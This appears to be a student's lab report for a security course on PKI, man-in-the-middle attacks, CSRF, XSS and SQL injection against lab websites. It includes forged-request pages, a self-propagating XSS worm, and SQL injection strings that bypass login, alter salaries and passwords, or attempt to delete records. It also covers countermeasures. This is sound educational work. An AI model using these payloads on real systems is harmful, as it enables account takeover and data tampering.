




# Report of CS4293  Assignment 3

[TOC]

## 2 Public-Key Cryptography and PKI [29 Marks] 
### 2.1 Become a Certificate Authority (CA) [5 Marks]

* Create directories

  

* Generate `ca.key` and `ca.crt` 

  

  

  

### 2.2 Create a Certificate for SEEDPKILab2020.com [5 Marks]

#### Step 1: Generate public/private key pair


#### Step 2: Generate a Certificate Signing Request (CSR)


#### Step 3:  Generating Certificates


### 2.3 Deploying Certificate in an HTTPS Web Server [5 Marks]

#### Step 2: Configuring the web server


#### Step 4: Testing our HTTPS website

* After import `ca.crt`

  

* Modify a single byte of `server.pem`, and restart the server, and reload the URL.

  * Observation: 

    * The website cannot be initiated when I changed the private key part. 

      

    * The website can still be initiated when I changed the part between the private key and the certificate

      

    * The `server.pem` can be accepted in the terminal, but there will be bad certificate alert in terminal and the website

      

      

  * Explanation: 

    * If we change the private key, we cannot verify the website since the private key is not matched with the public key. 
    * If we change the middle part, only some of the configuration will be changed, the process of verification is not affected.
    * If we change the certificate part, we cannot verify the certificated signed by CA, but the private and public key pair can be verified. Therefore, there will be alert that the certificate is bad. 

* use https://localhost:4433 instead:

  * Observation: The connection is not secure

    

  * Explanation: The certificate request for `server.crt` uses the name `SEEDPKILab2020.com` as the common name. Therefore, the signed public key for the website is using the `SEEDPKILab2020.com` instead of `localhost`. Therefore, the `localhost` is not accepted by the browser. 

### 2.4 Deploying Certificate in an Apache-Based HTTPS Website [5 Marks]

* Steps: 

  * Access the `apache2.conf` by using following command

    ```
    sudo vim /etc/apache2/apache2.conf
    ```

  * Add the following line at the bottom of that file

    ```
    ServerName localhost
    ```

  * Create `index.html` in two folders newly created `/var/www/SEEDPKILab2020_One` `/var/www/SEEDPKILab2020_Two`.

    * `/var/www/SEEDPKILab2020_One/index.html`

      ```html
      Hello world from http website SEEDPKILab.com 
      ```

    * `/var/www/SEEDPKILab2020_Two/index.html`

      ```html
      Hello world from https website SEEDPKILab.com! 
      ```

  * Copy `server.crt` and `server.key` to `/etc/apache2/ssl`

    ```
    sudo cp server.crt /etc/apache2/ssl/server.crt
    sudo cp server.key /etc/apache2/ssl/server.key
    ```

  * In the directory ` /etc/apache2/sites-available`, append following configurations in `000-default.conf` and `default-ssl.conf` respectively

    * `000-default.conf`

      ```
      <VirtualHost *:80>
      	ServerName SEEDPKILab2020.com
      	DocumentRoot /var/www/SEEDPKILab2020_One
      	DirectoryIndex index.html
      </VirtualHost>
      ```

    * `default-ssl.conf` (inside the tag `<IfModule mod_ssl.c> </IfModule>`)

      ```
      <VirtualHost *:443>
      		ServerName SEEDPKILab2020.com
      		DocumentRoot /var/www/SEEDPKILab2020_Two
      		DirectoryIndex index.html
      
      		SSLEngine On
      		SSLCertificateFile /etc/apache2/ssl/server.crt
      		SSLCertificateKeyFile /etc/apache2/ssl/server.key
      
      </VirtualHost>
      ```

* Result when I access `seedpkilab2020.com` by using  `https` and `http` respectively

  * `https`

    

  * `http`

    

### 2.5 Launching a Man-In-The-Middle Attack [5 Marks]

#### Step 1:Setting up the malicious website

* Append the following configuration to `default-ssl.conf`

  ```
  <VirtualHost *:443>
  		ServerName example.com
  		DocumentRoot /var/www/SEEDPKILab2020_Two
  		DirectoryIndex index.html
  
  		SSLEngine On
  		SSLCertificateFile /etc/apache2/ssl/server.crt
  		SSLCertificateKeyFile /etc/apache2/ssl/server.key
  
  </VirtualHost>
  ```

#### Step 2: Becoming the man in the middle

* Append the following line to `/etc/hosts`

  ```
  127.0.0.1 example.com
  ```

#### Step 3:  Browse the target website

* Restart Apache

  ```
   sudo apachectl configtest
   sudo service apache2 restart
  ```

* Result in the browser

  * Observation: `https://example.com` is not verified by the browser. The SSL connection is not allowed.

    

  * Explanation: The certificate issued by the root CA uses the common name `SEEDPKILab2020.com` in the `server.crt`. Therefore, `example.com` will not be verified.  As shown in the third case of man-in-the-middle-attack in the tutorial, there is a mismatch:
    $$
    example.com \neq seedpkilab2020.com
    $$


### 2.6 Launching a Man-In-The-Middle Attack with a Compromised CA [4 Marks]

* Attacker generates a new key and CSR by using the common name `example.com`

  

  

* Since the private key of the root CA is stolen, and the certificate of the root CA is public, we can issue a bad certificate to the fake website `example.com`

  

* Copy the `attacker.crt` and `attacker.key` to `/etc/apache2/ssl`

  ```
  sudo cp attacker.crt /etc/apache2/ssl/server.crt
  sudo cp attacker.key /etc/apache2/ssl/server.key
  ```

* Restart Apache

  

* Result

  

## 3 Cross-Site Request Forgery (CSRF) Attack [17 Marks]

### 3.2 Observing HTTP Request [3 Marks]

* Raw header of HTTP GET request

  ```http
  GET http://www.csrflabelgg.com/file/all?list_type=gallery
  Host: www.csrflabelgg.com
  User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate
  Referer: http://www.csrflabelgg.com/file/all
  Cookie: Elgg=7jdkhtd1ak3o7iv680vpcduhj0
  Connection: keep-alive
  Upgrade-Insecure-Requests: 1
  ```

  * For GET, the parameters are attached to the URL

    

    

* Raw header of HTTP POST request (login)

  ```http
  POST http://www.csrflabelgg.com/action/login
  Host: www.csrflabelgg.com
  User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate
  Referer: http://www.csrflabelgg.com/blog/all
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 105
  Cookie: Elgg=7jdkhtd1ak3o7iv680vpcduhj0
  Connection: keep-alive
  Upgrade-Insecure-Requests: 1
  ```

  * For post the parameters are not attached to the URL

    

    

### 3.3 CSRF Attack using GET Request [4 Marks]

* Boby creates a new account named Charlie, he logins to this account to add himself, and observes the header. 

  ```http
  GET http://www.csrflabelgg.com/action/friends/add?friend=43&__elgg_ts=1587989485&__elgg_token=uWpTi4FHb2AgjN1URMnR4w
  Host: www.csrflabelgg.com
  User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0
  Accept: application/json, text/javascript, */*; q=0.01
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate
  Referer: http://www.csrflabelgg.com/profile/boby
  Content-Type: application/x-www-form-urlencoded; charset=UTF-8
  X-Requested-With: XMLHttpRequest
  Content-Length: 56
  Cookie: Elgg=a2gs5li0g41cf4edfqp3log9u6
  Connection: keep-alive
  ```

* Boby creates the malicious web page as following, and sends the link of the website `http://www.csrflabattacker.com` to Alice. 

  ```html
  <html>
      <body>
          <h1> This page lets Alice add Boby as a friend.</h1>
          
      </body>
  </html>
  ```

  

* Alice clicks the link and finds out Bob is added by her automatically

  

  

  

### 3.4 CSRF Attack using POST Request [5 Marks]

* Boby changes his own profile, and observes the header

  ```http
  POST http://www.csrflabelgg.com/action/profile/edit
  Host: www.csrflabelgg.com
  User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate
  Referer: http://www.csrflabelgg.com/profile/boby/edit
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 506
  Cookie: Elgg=k581gnh7g2g1u5bd06fv3450r4
  Connection: keep-alive
  Upgrade-Insecure-Requests: 1
  __elgg_token=BPrtDuFw1ImWgRKwDLZhHQ&__elgg_ts=1587991145
  &accesslevel[briefdescription]=2
  &accesslevel[contactemail]=2
  &accesslevel[description]=2
  &accesslevel[interests]=2
  &accesslevel[location]=2
  &accesslevel[mobile]=2
  &accesslevel[phone]=2
  &accesslevel[skills]=2
  &accesslevel[twitter]=2
  &accesslevel[website]=2	
  &description=<p>Boby+is+my+Hero</p>
  &guid=43
  &name=Boby
  ```

* Boby creates the malicious web page as following, and sends the link of the website `http://www.csrflabattacker.com` to Alice. 

  ```html
  <html>
      <body>
          <h1>This page forges an HTTP POST request.</h1>
          <script type="text/javascript">
  
          function forge_post()
          {
              var fields;
  
              // The following are form entries need to be filled out by attackers.
              // The entries are made hidden, so the victim won't be able to see them.
              fields += "<input type='hidden' name='name' value='Alice''>";
              fields += "<input type='hidden' name='briefdescription' value='Boby is my Hero'>";
              fields += "<input type='hidden' name='accesslevel[briefdescription]'
              value='2'>";
              fields += "<input type='hidden' name='guid' value='42'>";
  
               // Create a <form> element.
               var p = document.createElement("form");
  
               // Construct the form
               p.action = "http://www.csrflabelgg.com/action/profile/edit";
               p.innerHTML = fields;
               p.method = "post";
  
               // Append the form to the current page.
               document.body.appendChild(p);
  
               // Submit the form
               p.submit();
           }
  
           // Invoke forge_post() after the page is loaded.
           window.onload = function() { forge_post();}
           </script>
       </body>
  </html>
  ```

* After clicking the link, Alice’s profile is changed:

  

  

* Questions:

  * Q1: Boby can find the user id by removing Alice from the user list, and observing Alice’s profile page source. He finds Alice’s `guid `is 42.

    

  * Q2:  Generally Boby cannot launch this attack since the user id of each user is different and protected by the same origin policy. But the implementation of the website has a loophole as shown below. 

    * We can find that in the source code of the activity page, `guid` is stored in a variable named `elgg`

      

    * Since GET request in the malicious website will not return to the original page, we can call a GET request before the POST request to get the source code of the webpage first:

      ```http
      Host: www.csrflabelgg.com
      User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0
      Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
      Accept-Language: en-US,en;q=0.5
      Accept-Encoding: gzip, deflate
      Referer: http://www.csrflabelgg.com/
      Cookie: Elgg=f0s33muql7f54l912dkoemeci4
      Connection: keep-alive
      Upgrade-Insecure-Requests: 1
      Cache-Control: max-age=0
      ```

      

    * Then we can parse the `owner_guid` field in the source code by using javascript, and then call a POST request using this field. 

### 3.5 Implementing a countermeasure for Elgg [5 Marks]

* Observation: CSRF attack cannot be launched. The webpage is keeping refreshing due to the POST request.  Error message will present when Alice returns to her page. 

  

* The secret token (`__elgg_token`) in the HTTP request captured by the inspection tool

  

* Reason: The malicious page from a different origin will not be able to access the secret token, which is guaranteed by browsers (**the same origin policy** prevents them from finding out the secret tokens from the webpage)

## 4 Cross-Site Scripting (XSS) Attack [33 Marks]

### 4.3 Posting a Malicious Message to Display an Alert Window [4 Marks]

* Embed the script

  

* Observation: After pressing the save button, a notification window with “XSS” is presented

  

* Observing by using admin account

  

### 4.4 Posting a Malicious Message to Display Cookies [4 Marks]

* Embed the script

  

* Observation: After pressing the save button, the cookie for Alice is presented in the notification.

  

### 4.5 Stealing Cookies from the Victim’s Machine [4 Marks]

* The code appended to the profile

  ```
  <script>
  	document.write(''); 
  </script>
  ```

* Observation: The TCP server program can detect the cookie and print the value as shown below

  

### 4.6 Becoming the Victim’s Friend [5 Marks]

* The modified code

  ```html
  <script type="text/javascript">
  window.onload = function () {
  	var Ajax=null;
  	var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
  	var token="&__elgg_token="+elgg.security.token.__elgg_token;
  	//Construct the HTTP request to add Samy as a friend.
  	var sendurl="http://www.xsslabelgg.com/action/friends/add?friend=" + 
          		elgg.page_owner.guid+ token + ts; //FILL IN
      alert(sendurl)
      //Create and send Ajax request to add friend
  	Ajax=new XMLHttpRequest();
  	Ajax.open("GET",sendurl,true);
  	Ajax.setRequestHeader("Host","www.xsslabelgg.com");
  	Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
  	Ajax.send();
  }
  </script>
  
  ```

  

* Use Admin’s account to visit the profile

  

  

* Questions

  * Q1: Line 4 & 5 are needed by the server to prevent CSRF attack. Without these two lines, the server will not verify the GET request. 

  * Q2: If I use the editor mode, I cannot launch the attack as shown in the following screen shot, the malicious code can be presented to the victims. 

    


### 4.7 Modifying the Victim’s Profile [5 Marks]

* The modified code

  ```html
  <script type="text/javascript">
  window.onload = function () { 
      var userName=elgg.session.user.name;
      var guid="&guid="+elgg.session.user.guid;
  	var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
  	var token="&__elgg_token="+elgg.security.token.__elgg_token;
  	//Construct the HTTP request to add Samy as a friend.
      var content="&description=SAMY+is+MY+HERO&accesslevel%5Bdescription%5d=2"; 
      content = token + ts + userName + content +guid
      //FILL IN
  	var samyGuid=47; //FILL IN
      var sendurl = "http://www.xsslabelgg.com/action/profile/edit"
  	if(elgg.session.user.guid!=samyGuid)
      {
          //Create and send Ajax request to modify profile
          var Ajax=null;
          Ajax=new XMLHttpRequest();
          Ajax.open("POST",sendurl,true);
          Ajax.setRequestHeader("Host","www.xsslabelgg.com");
          Ajax.setRequestHeader("Content-Type",
          "application/x-www-form-urlencoded");
          alert(content);
          Ajax.send(content);
      }
  }
  </script>
  ```

  

  

* Question 3: This line makes sure Samy’s profile will not be changed. If we remove this line, Samy’s profile will also be changed, which will replace the malicious code. 

  

  

### 4.8 Writing a Self-Propagating XSS Worm [6 Marks]

* The modified code

  ```html
  <script type="text/javascript">
  window.onload = function () { 
      var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
      var jsCode = document.getElementById("worm").innerHTML;
      var tailTag = "</" + "script>";
      var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);
      alert(wormCode)
      var userName=elgg.session.user.name;
      var guid="&guid="+elgg.session.user.guid;
  	var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
  	var token="&__elgg_token="+elgg.security.token.__elgg_token;
  	//Construct the HTTP request to add Samy as a friend.
      var desc = "&description=SAMY+is+MY+HERO" + wormCode;
      desc += "&accesslevel%5Bdescription%5d=2";
      
      var content = token + ts + userName + desc +guid;
  	var samyGuid=47; //FILL IN
      var sendurl = "http://www.xsslabelgg.com/action/profile/edit";
  	if(elgg.session.user.guid!=samyGuid)
      {
          //Create and send Ajax request to modify profile
          var Ajax=null;
          Ajax=new XMLHttpRequest();
          Ajax.open("POST",sendurl,true);
          Ajax.setRequestHeader("Host","www.xsslabelgg.com");
          Ajax.setRequestHeader("Content-Type",
          "application/x-www-form-urlencoded");
          alert(content);
          Ajax.send(content);
      }
      
      var sendurl="http://www.xsslabelgg.com/action/friends/add?friend=47"+ token + ts; //FILL IN
      //Create and send Ajax request to add friend
  	Ajax=new XMLHttpRequest();
  	Ajax.open("GET",sendurl,true);
  	Ajax.setRequestHeader("Host","www.xsslabelgg.com");
  	Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
  	Ajax.send();
  }
  </script>
  ```

* Observation:

  * Alice’s profile is changed by visiting Samy’s profile

    

    

  * Boby’s profile is changed by visiting Alice’s profile. And he will add Samy as his friend

    

    

    

### 4.9 Countermeasures [5 Marks]

* Activate only the `HTMLawed `countermeasure: The `<script>` tags are removed, but the remaining parts are preserved in the profile. 

  

* Activate two countermeasures: All the script tags are disabled and all the special characters like `<` `>` are replaced by other symbols. 

  

## 5 SQL Injection Attack [21 Marks]

### 5.2 Get Familiar with SQL Statements [4 marks]

* Select all Alice’s information

  ```sql
  select * from credential where Name = "Alice"
  ```

  

### 5.3 SQL Injection Attack on SELECT Statement [6 Marks]

#### Sub-task 1: SQL Injection Attack from webpage.

* use the user name: `'or Name='admin';#` 

  * The code after the injection is as following (`;#` can escape following command)

    ```sql
    SELECT id, name, eid, salary, birth, ssn, address, email,
    nickname, Password
    FROM credential
    WHERE name= ' 'or Name='admin';# ' and Password='$hashed_pwd'
    ```

  

  

#### Sub-task 2: SQL Injection Attack from command line

* URL for GET after encoding 

  ```
  'http://www.seedlabsqlinjection.com/unsafe_home.php?username=%27+or+Name%3D%27admin%27%3B%23&Password='
  ```

  

  

#### Sub-task 3: Append a new SQL statement

* use the user name: `'or 1=1 ;delete from credential where name = 'Alice';# ` 

  

  

  * Observation: After appending a new statement after the semicolon, the attack cannot be launched since there is countermeasure in MySql that disallow multiple statements called from php. 

### 5.4 SQL Injection Attack on UPDATE Statement [6 Marks]

#### Sub-task 1: Modify your own salary

* use the malicious input `Alice', salary = '100000' where name='Alice';#`

  

  

#### Sub-task 2: Modify other people’ salary

* use the malicious input `', salary = '1' where name='Boby';#`

  

  

#### Sub-task 3: Modify other people’ password

* Alice choose `12345` to be the new password, and calculate a hash value

  

* Modify by using the malicious input `', password= '8cb2237d0679ca88db6464eac60da96345513964' where name='Boby';#` 

  

* Login to Boby’s account

  

  

### 5.5 Countermeasure — Prepared Statement [5 Marks]

* First vulnerability: Login

  * before using the countermeasure

    

  * after using the countermeasure

    

  * attack result after using the countermeasure

    

    

* Second vulnerability: edit profile

  * before using the countermeasure

    

  * after using the countermeasure

    

  * attack result after using the countermeasure using ``Alice', salary = '0000000' where name='Alice';#``

    

    

* Observation: I cannot exploit the vulnerabilities. 


